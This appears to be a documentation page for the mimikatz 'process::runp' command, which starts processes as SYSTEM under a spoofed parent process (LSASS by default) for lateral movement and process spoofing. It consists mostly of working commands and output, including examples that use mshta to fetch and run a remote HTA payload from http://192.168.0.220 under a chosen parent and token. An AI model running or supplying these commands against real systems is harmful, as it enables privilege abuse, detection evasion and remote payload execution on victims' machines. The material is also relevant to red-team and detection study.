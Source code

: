 # runp

Run a subprocess under a parent process \(Default parent process is `LSASS.exe`\). It can also be used for lateral movement and process spoofing. It has the following command line arguments:

* `/run`: the name of the process
* `/ppid`: the parent process ID
* `/token`: The specified token privileges to run the new process. It can be found with `token::list`

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # process::runp /run:notepad.exe
[pid] no argument, default for LSASS
Run : notepad.exe
PPID: 712 <---------------- This is the pid of LSASS.exe
PID: 728 - TID: 2916
{0;000003e7} 1 D 22529734       NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
```

#### Run under a specified process

```text
mimikatz # process::runp /run:notepad.exe /ppid:6388
Run : notepad.exe
PPID: 6388
PID: 7360 - TID: 8488
{0;000003e7} 1 D 23539338       NT AUTHORITY\SYSTEM     S-1-5-18        (11g,08p)       Primary
```

#### mshta payload execution example

```text
mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948
Run : mshta http://192.168.0.220:80/delivery.hta
PPID: 2948
PID: 7928 - TID: 1300
{0;000003e7} 1 D 25077110       NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
```

#### mshta payload execution under a specified token

```text
mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948 /token:1
Run : mshta http://192.168.0.220:80/delivery.hta
PPID: 2948
PID: 7980 - TID: 9060
{0;000003e7} 1 D 25970276       NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
   G:[ DEO   ] BUILTIN\Administrators
   G:[MDE    ] Everyone
   G:[MDE    ] NT AUTHORITY\Authenticated Users
   G:[       ] Mandatory Label\System Mandatory Level
   P:[    ]    SeAssignPrimaryTokenPrivilege
   P:[    ]    SeIncreaseQuotaPrivilege
   P:[DE  ]    SeTcbPrivilege
   P:[    ]    SeSecurityPrivilege
   P:[    ]    SeTakeOwnershipPrivilege
   P:[    ]    SeLoadDriverPrivilege
   P:[DE  ]    SeProfileSingleProcessPrivilege
   P:[DE  ]    SeIncreaseBasePriorityPrivilege
   P:[DE  ]    SeCreatePermanentPrivilege
   P:[    ]    SeBackupPrivilege
   P:[    ]    SeRestorePrivilege
   P:[    ]    SeShutdownPrivilege
   P:[DE  ]    SeDebugPrivilege
   P:[DE  ]    SeAuditPrivilege
   P:[    ]    SeSystemEnvironmentPrivilege
   P:[DE  ]    SeChangeNotifyPrivilege
   P:[    ]    SeUndockPrivilege
   P:[    ]    SeManageVolumePrivilege
   P:[DE  ]    SeImpersonatePrivilege
   P:[DE  ]    SeCreateGlobalPrivilege
   P:[    ]    SeTrustedCredManAccessPrivilege
```

